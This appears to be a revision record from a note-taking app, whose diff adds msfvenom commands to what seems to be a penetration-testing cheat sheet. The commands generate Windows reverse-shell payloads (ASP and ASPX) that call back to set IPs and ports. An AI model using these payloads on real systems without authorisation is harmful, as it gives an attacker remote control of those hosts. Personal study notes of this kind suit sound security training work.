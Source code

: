 id: e88b92e191dd4c659ce1a4d7db70757c
parent_id: 6347bd6bc9b74a50803f8fb028543c45
item_type: 1
item_id: c5501ccb1e8d457f9a5080d28007af2e
item_updated_time: 1651112949879
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"p LHOST=\"],[-1,\"$\"],[1,\"!\"],[0,\"KALIIP L\"]],\"start1\":2370,\"start2\":2370,\"length1\":17,\"length2\":17},{\"diffs\":[[0,\"ORT=\"],[-1,\"$PORT\"],[1,\"!PORT -f asp > shell.asp\\\n- msfvenom -p windows/x64/shell\\\\_reverse\\\\_tcp LHOST=192.168.119.168 LPORT=4445 -f aspx > shell.aspx (For 64-bit)\\\n- msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=192.168.119.206 LPORT=5001\"],[0,\" -f \"]],\"start1\":2388,\"start2\":2388,\"length1\":13,\"length2\":220},{\"diffs\":[[0,\"hell.asp\"],[1,\" (For 32-bit)\\\n    \"],[0,\"\\\n\\\nJSP\\\n\\\n-\"]],\"start1\":2615,\"start2\":2615,\"length1\":16,\"length2\":34},{\"diffs\":[[0,\"hell.jsp\"],[1,\"</your></your>\"],[0,\"\\\n\\\nWAR\\\n\\\n-\"]],\"start1\":2775,\"start2\":2775,\"length1\":16,\"length2\":30},{\"diffs\":[[0,\"rpreter/\"],[-1,\"\\\n\"]],\"start1\":3708,\"start2\":3708,\"length1\":9,\"length2\":8}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T02:31:47.168Z
created_time: 2022-04-28T02:31:47.168Z
type_: 13